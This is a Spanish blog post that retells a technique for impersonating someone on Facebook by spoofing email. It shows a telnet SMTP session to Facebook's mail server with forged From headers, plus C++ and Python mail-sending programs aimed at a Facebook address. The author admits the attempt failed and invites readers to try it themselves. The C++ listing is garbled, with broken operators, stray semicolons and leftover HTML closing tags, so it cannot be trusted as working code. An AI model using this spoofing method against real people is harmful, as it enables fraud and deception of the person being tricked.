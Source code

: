 ```yaml
---
author: alex
categories:
- seguridad
color: '#F57C00'
date: '2016-09-25'
format: aside
if_slider_image:
- null
- null
layout: post.amp
mainclass: articulos
permalink: /suplantacion-de-identidad-en-facebook/
tags:
- email spoofing
- seguridad
- smtp
- spoofing facebook
title: "Suplantaci\xF3n de identidad en Facebook"
---
```


Leyendo el blog de <a href="http://www.elladodelmal.com/" target="_blank">Chema Alonso</a> me he encontrado con una entrada interesante que, aunque no he logrado realizarla al 100% quiero compartirla con vosotros para que lo intente quien quiera.

El método consiste en conseguir 3 cosas:

*La dirección de correo de la persona a suplantar.*
*Dirección de correo de facebook de la persona a quién se va a engañar.*
*Un sistema para enviar correos SMTP*

Los pasos a seguir podéis leerlos en la entrada de <a href="http://www.elladodelmal.com/2012/05/suplantacion-de-identidad-en-facebook.html" target="_blank">Chema: Suplantación de identidad en Facebook</a>

Voy a explicar lo que yo he hecho:

Al principio al establecer comunicación mediante telnet por el puerto 25 (el de SMTP) y escribrir los comandos siempre recibía el siguiente error:

```bash
<strong>550 5.6.0 Invalid header found (see RFC2822 section 3.6)</strong>
```

Tras buscar un poco el motivo descubrí que se debía a que me estaba saltando algunas cabeceras del protocolo, concretamente *From, To * y *Date.*

En resumen, todo el proceso queda como sigue:

<!--more--><!--ad-->

```bash
telnet smtpin.mx.facebook.com smtp
Trying 69.171.244.11...
Connected to smtpin.mx.facebook.com.
Escape character is '^]'.
220 smtpin.mx.facebook.com ESMTP
HELO client.facebook.com
250 smtpin.mx.facebook.com says HELO to xx.xxx.xxx.xx:xxxxx
MAIL from:
250 MAIL FROM accepted
RCPT to:
250 RCPT TO accepted
DATA
354 continue.  finished with "rn.rn"
From: xxxxx@xxxxx.xxx
To: xxxxxx@facebook.com
Subject: Test
Date: xxx, xx xxx xxxx xx:xx:xx -xxxx

This is an example
.
450 4.3.2 INT-T14 http://postmaster.facebook.com/response_codes?ip=xx.xxx.xx.x#int Server busy, try again later
Connection closed by foreign host.
```

Pero sigo recibiendo un error (*450 4.3.2 INT-T14 http://postmaster.facebook.com/response_codes?ip=xx.xxx.xx.x#int Server busy, try again later
Connection closed by foreign host*)

También probé con dos programas (sin éxito), uno en[ C++][1] y otro en [python][2] que encontré en stackoverflow:

```cpp
#include <iostream>
     #include <sys>
     #include </sys><sys>
     #include <netinet>
     #include <netdb>
     #include <stdio>
     #include <string>
     using namespace std;
     #define HELO "HELO xxxxxx@xxxx.xxxxrn"
     #define DATA "DATArn"
     #define QUIT "QUITrn"

    //#define h_addr h_addr_list[0]
    //FILE *fin;
    int sock;
    struct sockaddr_in server;
    struct hostent *hp, *gethostbyname();
    char buf[BUFSIZ+1];
    int len;
    char *host_id="69.171.244.12";
    char *from_id="********";
    char *to_id="*******";
    char *sub="testmailrn";
    char wkstr[100]="hello how r urn";

    /*=====Send a string to the socket=====*/

    void send_socket(char *s)
    {
        write(sock,s,strlen(s));
        write(1,s,strlen(s));
        //printf("Client:%sn",s);
    }

    //=====Read a string from the socket=====*/

    void read_socket()
    {
        len = read(sock,buf,BUFSIZ);
        write(1,buf,len);
      //printf("Server:%sn",buf);
    }

    /*=====MAIN=====*/
    int main(int argc, char* argv[])
    {

    /*=====Create Socket=====*/
    sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock==-1)
    {
     perror("opening stream socket");
     return 1;
    }
    else
      cout < < "socket createdn";
    /*=====Verify host=====*/
    server.sin_family = AF_INET;
    hp = gethostbyname(host_id);
    if (hp==(struct hostent *) 0)
    {
     fprintf(stderr, "%s: unknown hostn", host_id);
     return 2;
    }

    /*=====Connect to port 25 on remote host=====*/
    memcpy((char *) &server.sin;_addr, (char *) hp->h_addr, hp->h_length);
    server.sin_port=htons(25); /* SMTP PORT */
    if (connect(sock, (struct sockaddr *) &server;, sizeof server)==-1)
    {
     perror("connecting stream socket");
     return 1;
    }
    else
      cout < < "Connectedn";
    /*=====Write some data then read some =====*/
    read_socket(); /* SMTP Server logon string */
    send_socket(HELO); /* introduce ourselves */
    read_socket(); /*Read reply */
    send_socket("MAIL FROM: ");
    send_socket(from_id);
    send_socket("rn");
    read_socket(); /* Sender OK */
    send_socket("VRFY ");
    send_socket(from_id);
    send_socket("rn");
    read_socket(); // Sender OK */
    send_socket("RCPT TO: "); /*Mail to*/
    send_socket(to_id);
    send_socket("rn");
    read_socket(); // Recipient OK*/
    send_socket(DATA);// body to follow*/
    send_socket("Subject: ");
    send_socket(sub);
    read_socket(); // Recipient OK*/
    send_socket(wkstr);
    send_socket(".rn");
    read_socket();
    send_socket(QUIT); /* quit */
    read_socket(); // log off */

    //=====Close socket and finish=====*/
    close(sock);
    return 0;
  }

```

La versión en python:

```python
#!/usr/bin/python

import smtplib
import sys
import os

sender = 'xxxxx@xxxxx.com'
receivers = ['xxxxx@facebook.com']

message = """From: From Person
To: To Person
Subject: SMTP e-mail test
This is a test e-mail message.
"""

try:
   smtpObj = smtplib.SMTP('69.171.244.12')
   smtpObj.sendmail(sender, receivers, message)
   print "Successfully sent email"
except Exception, exc:
   sys.exit( "mail failed; %s" % str(exc) ) # give a error message
```

Esto es todo, por más que lo he intentado no lo he logrado, si os animáis a probarlo y lo conseguís, agradecería que lo comentárais.

##### Fuente: <a href="http://www.elladodelmal.com/2012/05/suplantacion-de-identidad-en-facebook.html" target="_blank">Elladodelmal</a>
</string></stdio></netdb></netinet></sys></iostream>



 [1]: https://elbauldelprogramador.com/c/
 [2]: https://elbauldelprogramador.com/python